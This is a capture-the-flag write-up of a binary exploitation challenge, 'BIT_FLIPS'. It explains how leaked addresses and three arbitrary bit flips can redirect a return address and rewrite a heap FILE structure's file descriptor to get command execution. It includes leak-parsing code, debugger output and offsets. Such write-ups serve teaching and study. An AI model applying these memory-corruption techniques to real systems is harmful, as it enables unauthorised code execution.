




# BIT_FLIPS - CTF Challenge Writeup

## Challenge Overview
This is a PWN challenge i solved during the Darkest Hour CTF by X-0R, he wrote some really interesting tasks for this CTF.

## Vulnerability Analysis

We first run Checksec on the binary as usual to see the mitigations present here:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
```


So basically all the mitigations are present.

## Running the Binary

```
doom@grayaavx:~/work/pwn/darkest/bitflip$ ./main_patched 
I'm feeling super generous today
&main = 0x56245cbd1405
&system = 0x7f5a70e53ac0
&address = 0x7ffdd4e655a0
sbrk(NULL) = 0x56247bac3000
>
```

We get some Leaks and then the program awaits our inputs.

Taking a look at the code the leaks start to make sense

## Code Analysis




We can see that the main function calls `setup` and then calls the `leaks` function

At First due to bad habits i assumed that the `setup` function was a typical setup function that disables buffering, a feature that makes remote exploitation easier (interactive I/O).

But it holds a surprise that i will show later.

Let's focus on the leaks function for now

[Leaks Function](images/leaks.png)


The `leaks` function is printing the addresses of `main`,`system` a stack variable `v7` and `v3` which is the output of `sbrk(0)`.

Initially i didn't know that `sbrk(0)` returns.

When you use sbrk(0) you get the current "break" address which is the address that marks the end of the process’s `heap`.

so basically the program is leaking the `main` address which will allow us to bypass `PIE` and be able to calculate other program addresses, a `system` leak will allow us to calculate `libc` addresses which can be useful for `ret2libc` attacks, a `stack` leak for whatever is on the stack `rbp` and `rsp` values etc. and finally a `heap` leak.


After giving us those leaks. the program goes on a loop which calls the `bit_flip` function 3 times:

```c
 for ( i = 0; i <= 2; ++i )
    bit_flip();
```

Let's take a look at this `bit_flip` function

[Bit_Flips Function](images/bitflip.png)

So this function reads two variables, a v2 variable of type `BYTE` and a v1 variable of type `unsigned int`

The first `scanf` uses a `%llx` format string (long long hex) which means a 64-bit hex value such as 0xdeadbeef

After Reading both inputs, It will check if the v1 value is less than 8. If so it will perform:

`*v2 ^= 1 << v1`


If v1 is greater than 8 it will print out "Go back to school" a humorous reminder that a byte contains exactly 8 bits, meaning only bit positions 0 through 7 are valid.

`*v2 ^= 1 << v1` performs a bit flip on the chosen index.

It first takes the integer 1 which in binary is `0000 0001` it will then shift it to the left v1 positions.

So if v1 is equal to 2 it will become `0000 0100` becoming (4) in decimal.

v2 will then be XOR'ed with that bitmask.

Suppose that v2 is a pointer to a memory region containing `0xcafebabe` and v1 is 3.

The program will first create the bitmask `0000 1000` and then we will have a XOR operation between `0xbe` and `0x08`

```

  1011 1110
^
  0000 1000
-------------
= 1011 0110
```

The resulting byte will be 0xb6 thus transforming 0xcafebabe to 0xcafebab6

However v2 is used as a pointer to memory here thus it will change the value in whatever `v2` points to.

Giving us an arbitrary bit_flip on 3 addresses.

Looking more into the functions that are present in the binary i found a `system_func` function.

[system_func Function](images/win.png)

This Function basically reads from a `stream` using `fgets` and calls `system()` on the content of this `stream`.

After seeing the cross references in IDA `shortcut x` we can see that there is a write on the stream in the setup function!

Remember earlier i mentioned that there is a setup function being called which i ignored at the start i only found out in the middle of the challenge that it contained such a vital piece of information.

[setup Function]

So this function returns a `FILE*` which is read from a `./commands` file and  read into the stream that is used in the `system_func`.

So Basically i created a `comamnds` file containing `cat flag` and my plan was to look for ways to use the bitflips to allow us to call that function and get the flag.

## Capturing Leaks

First i wrote a snippet to allow us to get the leaks

```Python
    p.recvuntil(b"&main = ")
    main=int(p.recvline().strip(),16)

    log.info(f"main @ {hex(main)} ")

    p.recvuntil(b"&system = ")
    system=int(p.recvline().strip(),16)

    log.info(f"SYSTEM @ {hex(system)} ")

    p.recvuntil(b"&address = ")
    address=int(p.recvline().strip(),16)

    log.info(f"adddress @ {hex(address)} ")
    
    p.recvuntil(b"sbrk(NULL) = ")
    
    sbrk=int(p.recvline().strip(),16)
    log.success(f" SBRK @ {hex(sbrk)}")
```

Now that we have the Leaks we launch the Binary and start looking for valid Targets

## Debugging

Since the Binary is stripped it will be a pain to set up breakpoints manually. I think there are ways to do it smoothly but i need to do more research on them

After running the program here and debugging here is what we get:

[vmmap](images/vmmap.png)


We can see that multiple memory regions are targetable. (the ones marked as read and writable).

However my focus was targeting return addresses that are present on the stack of each function since it was the easiest target to choose.

When a function finishes it's execution. It must return to the function that called it. Thus it saves a pointer to the caller function on it's stack.

When our program is waiting for user input in the `bit_flip` function. it saves a pointer to where `leaks` function stopped execution to resume it's process flow there.

Here is an example with screenshots.

We can use pwndbg's `breakrva` function to set PIE breakpoints.


The offset of `bit_flip` call is `0x13d5` and the offset of `leaks` call is `0x141d`

```
breakrva 0x141d
breakrva 0x13d5
```


Now let's take a look at the disassembly of `main` :

[main disassembly](images/main_disass.png)


After calling `leaks` the next instruction in the main function is `mov eax, 0` and looking at the stack frame of the `leaks` function we can see it on the stack:

[leak stack](images/leaks_stack.png)


```
───────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ rsp 0x7ffc3f5d6460 ◂— 0
01:0008│-018 0x7ffc3f5d6468 ◂— 0x13f5d65b8
02:0010│ rdx 0x7ffc3f5d6470 ◂— 2
03:0018│-008 0x7ffc3f5d6478 ◂— 0x7ce47b68e2c01500
04:0020│ rbp 0x7ffc3f5d6480 —▸ 0x7ffc3f5d6490 —▸ 0x7ffc3f5d6530 —▸ 0x7ffc3f5d6590 ◂— 0
05:0028│+008 0x7ffc3f5d6488 —▸ 0x56381d08c422 ◂— mov eax, 0
06:0030│+010 0x7ffc3f5d6490 —▸ 0x7ffc3f5d6530 —▸ 0x7ffc3f5d6590 ◂— 0
07:0038│+018 0x7ffc3f5d6498 —▸ 0x7f2fad627635 ◂— mov edi, eax
```


We have a stack variable pointing to the `mov eax, 0` instruction.

`05:0028│+008 0x7ffc3f5d6488 —▸ 0x56381d08c422 ◂— mov eax, 0`

We Need to calculate the offset between this stack address and our leaked address

in this instance of the program the leaked stack address was at `0x7ffc3f5d6470` and the rbp was at `0x7ffc3f5d6480`

```
pwndbg> p/x 0x7ffc3f5d6480-0x7ffc3f5d6470
$2 = 0x10
```


So if we take the value of the leak and add 0x10 we will have the value pointed to by rbp.

And the value of our target address is going to be rbp+0x8

Now that we got our target address that points to the `mov eax, 0`.

We need to find which bit change is needed to call our `system_func`.

```
pwndbg> x/i 0x5647a8d22422
   0x5647a8d22422:      mov    eax,0x0
pwndbg> x/i 0x5647a8d21000+0x1429
   0x5647a8d22429:      push   rbp
```

So we need to turn `0x5647a8d22422` to `0x5647a8d22429`

`0x22` to binary

```
pwndbg> p/t 0x22
$2 = 100010
```

`0x29` to binary

```
pwndbg> p/t 0x29
$3 = 101001
```

This can be done in 3 bit shifts! positions 1 2 and 4. (inputs 0 1 and 3 in the binary)

while this works we get a stack alignment issue. so let us jump to a different address.

`► 0x7f836a453675    movaps xmmword ptr [rsp], xmm1                   <[0x7ffe54debfd8] not aligned to 16 bytes>`

lets jump to a different address

```
 ► 0x561c67185429    push   rbp
   0x561c6718542a    mov    rbp, rsp 
```


Initially we targeted the `push rbp` instruction but now lets try to skip it.

```
pwndbg> p/t 0x22
$1 = 100010
pwndbg> p/t 0x2a
$2 = 101010
```

Let's call `mov rbp, rsp`, this can be done by a single bit shift (position 3) on our target.

And it works!

```
> $ 0x7fffc04a5af8
$ 3
> $ 0x7fffc04a5af8
$ 3
> $ 0x7fffc04a5af8
$ 3
FLAG{FAKE_FLAG_FOR_TESTING}
```


However when testing with the remote target things don't go as smooth as we thought.



Turns out The Remote Target has a useless  `commands` file open there...

Here i asked the author for advice and he mentioned something about the file streams.

I will explain the intended method below :

Let's look at the disassembly of the `system_func` function:




We can see that the `fgets` function is loading the FILE* to the commands file in the 3rd argument
`fgets(s, 24, stream)`

This points to a FILE structure in the heap.

`►   0x55abce734000     0x55abce755000 rw-p    21000       0 [heap] +0x310` 

This memory region is writable.

To see the file struct clearly we have to unstrip libc to load the file structure symbols.

```
file libc.so.6 
libc.so.6: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /usr/lib/ld-linux-x86-64.so.2, BuildID[sha1]=2f722da304c0a508c891285e6840199c35019c8d, for GNU/Linux 4.4.0, stripped
```


We can use pwntools's search_by_build_id and fetch debug info on this libc file based on build id.


That didn't work so we can do it manually

here is a look at the file structure:

```
pwndbg> x/40gx 0x562ccca17310
0x562ccca17310: 0x00000000fbad2488      0x0000000000000000
0x562ccca17320: 0x0000000000000000      0x0000000000000000
0x562ccca17330: 0x0000000000000000      0x0000000000000000
0x562ccca17340: 0x0000000000000000      0x0000000000000000
0x562ccca17350: 0x0000000000000000      0x0000000000000000
0x562ccca17360: 0x0000000000000000      0x0000000000000000
0x562ccca17370: 0x0000000000000000      0x00007f5ea6e094e0
0x562ccca17380: 0x0000000000000003      0x0000000000000000
```


here is how it looks like with debug symbols (i copied it manually)
```
+0x00: 0x00000000fbad2488  → _flags
+0x08: 0x0                → _IO_read_ptr
+0x10: 0x0                → _IO_read_end
+0x18: 0x0                → _IO_read_base
+0x20: 0x0                → _IO_write_base
+0x28: 0x0                → _IO_write_ptr
+0x30: 0x0                → _IO_write_end
+0x38: 0x0                → _IO_buf_base
+0x40: 0x0                → _IO_buf_end
+0x48: 0x0                → _IO_save_base
+0x50: 0x0                → _IO_backup_base
+0x58: 0x0                → _IO_save_end
+0x60: 0x0                → markers
+0x68: 0x7f5ea6e094e0     → _chain (likely next FILE in linked list)
+0x70: 0x3                → _fileno <-
+0x78: 0x0                → _flags2

```


We have 0x3 in the `fileno` these correspond to the file descriptors such as stdin,stdout and stderr.

The first open file gives it a file descriptor equal to 3.


If we change it to 0 that would allow us to make the file struct use STDIN instead of the file we opened.


```
pwndbg> vmmap 0x5648e0ce1380
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
    0x5648c6db1000     0x5648c6db5000 rw-p     4000    3000 main_patched
►   0x5648e0ce1000     0x5648e0d02000 rw-p    21000       0 [heap] +0x380
    0x7fa918c00000     0x7fa918c24000 r--p    24000       0 libc.so.6


```


So We Calculate the heap base from the sbrk leak we got earlier


```
    heap_base=sbrk-0x21000
    target=heap_base+0x380
```

And we need to do 2 bit flips to turn 3 (011) into 0


And it works!




This was a really fun challenge. I spent too long trying to find a solution for it.

It was a reminder to pay attention to some details we often dismiss due to a force of bad habit.


